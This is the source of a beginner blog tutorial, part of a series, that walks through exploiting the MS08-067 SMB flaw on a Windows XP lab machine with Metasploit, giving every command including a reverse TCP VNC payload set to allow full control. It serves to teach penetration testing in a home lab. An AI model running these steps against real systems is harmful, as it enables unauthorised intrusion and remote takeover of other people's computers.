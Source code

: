 ```yaml
---
layout: post
title:  "First Hack Part 3 (Searching for Targets and their Weaknesses)"
date:   2018-04-16 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 3 (Exploiting The Vulnurability)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

<b>Roadmap</b>

Now comes the fun part. Using a tool called Metasploit in order to break into the Windows XP computer with a VNC. a VNC is simply a window that displays the target desktop. It allows you to control it the same way you are controlling your virtual machine. There are 4 simple steps to this.

Searching for the exploit command

Loading the exploit (Code to exploit the weakness)

Loading the payload (Software used to give you control)

Set the Settings and "pwn the box"

<b>Searching for the Exploit Command</b>

The first thing we need to do is use the code identified in part 2. MS08_067 is the exploit we will use. But how do we load it? We need to get the command from the rapid7 database. Go to...

[https://www.rapid7.com/db][rapid7]

Type "MS08_067" in the search field and make sure "Metasploit Module" is selected in the dropdown box.

Look at the code under "Module Name." We will use that once we load Metasploit

<b>Loading the Exploit and Payload</b>

[Offensive Security: Metasploit Commands][commands]

[Offensive Security: Exploits][exploits]

[Offensive Security: Payloads][payloads]

Open a terminal and load Metasploit's terminal interface with the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Use the exploit we found in Rapid7 with the "use" command.

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

There are many useful payloads. I will recommend we use a reverse TCP payload in order to gain a VNC session. Load the payload with the "set" command.

{% highlight ruby %}
set PAYLOAD windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Settings</b>

We want to see if we have the correct settings. Use the following command.

{% highlight ruby %}
show options
{% endhighlight %}

You should get something that looks like this

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may have noticed a few lines are missing. Specifically LHOST and RHOST. LHOST is the local host (your PC) and RHOST is the remote host (target PC)

Let's fill those in with the set command

{% highlight ruby %}
set RHOST 192.168.1.244
#I am using the ip of my own target computer. Use the IP for your own
{% endhighlight %}

Before we fill in LHOST, we need to the the IP of your own Linux machine.

Press Ctrl+Shift+T in order to bring up a new terminal tab

{% highlight ruby %}
sifconfig
{% endhighlight %}

You should get something like this. I highlighted the IP in yellow. Your IP will be in the same spot but most likely different.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

{% highlight ruby %}
set LHOST 192.168.1.48
#use the IP you just looked up in ifconfig
{% endhighlight %}

We filled in all the empty fields so we should be good right? Almost. By default, the VNC will only let you spy on the target machine. We want to enable control. Make one more setting.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

Run the show options again and make sure you have these settings.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

<b>Hack It!</b>

Finally, run the command

{% highlight ruby %}
exploit
{% endhighlight %}

Congratulations, you did it!!

![image tooltip](/blog/images/ms08_067/owned.JPG)

[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[rapid7]: https://www.rapid7.com/db
[commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
[exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[payloads]: https://www.offensive-security.com/metasploit-unleashed/payloads/
